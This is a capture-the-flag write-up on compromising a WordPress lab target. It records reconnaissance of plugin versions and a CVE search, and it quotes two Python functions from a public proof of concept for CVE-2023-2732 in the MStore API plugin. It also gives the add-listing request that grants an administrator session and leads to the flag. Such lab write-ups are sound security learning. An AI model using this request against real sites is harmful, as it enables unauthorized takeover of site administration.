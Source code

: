 # CTF Semana #3 (Wordpress CVE)

## Reconnaissance

To begin, we accessed the target at http://143.47.40.175:5001, navigated to the `Shop` section, and selected `WordPress Hosting`. From there, we reviewed the `Additional Information` at the following URL: http://143.47.40.175:5001/product/wordpress-hosting/.

<p align="center" justify="center">
  <img src="./assets/ctf3/plugins.png"/>
</p>

## CVE Research

Next, we conducted a vulnerability search via the [Search CVE List](https://cve.mitre.org/cve/search_cve_list.html). The search query was composed of relevant versions and plugins: `Wordpress 5.8.1 MStore API 3.9.0 WooCommerce 5.7.1 Booster for WooCommerce 5.4.4`.

This search yielded four potential CVEs:

<p align="center" justify="center">
  <img src="./assets/ctf3/CVEs.png"/>
</p>

## CVE Selection

The goal was to exploit a vulnerability that would allow administrative access. After analysis, the most applicable CVEs for this purpose were: `CVE-2023-2734`, `CVE-2023-2733`, and `CVE-2023-2732`.

## Finding an Exploit

A search for an exploit revealed a GitHub repository for `CVE-2023-2732`, which can be found at this [link](https://github.com/RandomRobbieBF/CVE-2023-2732).

Although an attempt to execute the provided script resulted in errors, we analyzed the source code and identified two key functions:

1. **fetch_usernames_rest_api**: This function retrieves the list of WordPress users via the REST API. 

    ```py
    def fetch_usernames_rest_api(wordpress_url):
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299'}
        response = session.get(f"{wordpress_url}/wp-json/wp/v2/users", headers=headers,verify=False,timeout=30)
        ...
    ```
2. **sendem**: This function sends a request that exploits the vulnerability to add administrative permissions for a specified user.
    ```py
    def sendem(user_id, username):
        # Set up the request headers
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'}
        # Send the request
        response = session.get(""+wordpress_url+"/wp-json/wp/v2/add-listing?id="+str(user_id)+"", headers=headers,verify=False,timeout=30)
        ...
    ```

The `fetch_usernames_rest_api` function allows us to extract user IDs, and `sendem` facilitates privilege escalation by exploiting the identified vulnerability.

## Exploiting the Vulnerability

1. We accessed http://143.47.40.175:5001/wp-json/wp/v2/users and retrieved the list of users as a JSON response:
<p align="center" justify="center">
  <img src="./assets/ctf3/admin_id.png"/>
</p>

2. From the response, we identified that the administrator’s user ID is `1`.
3. Using the `sendem` function, we crafted a URL to exploit the vulnerability by entering the following into the browser: http://143.47.40.175:5001/wp-json/wp/v2/add-listing?id=1. This effectively granted administrative permissions to our session.
4. We searched for common URL patterns used for the WordPress admin dashboard and identified http://143.47.40.175:5001/wp-admin/index.php as a potential entry point. Upon accessing this URL, we successfully reached the admin dashboard. From there, we navigated to the **Posts** section, where we found a post titled "Message for our Employers", which contained the CTF flag.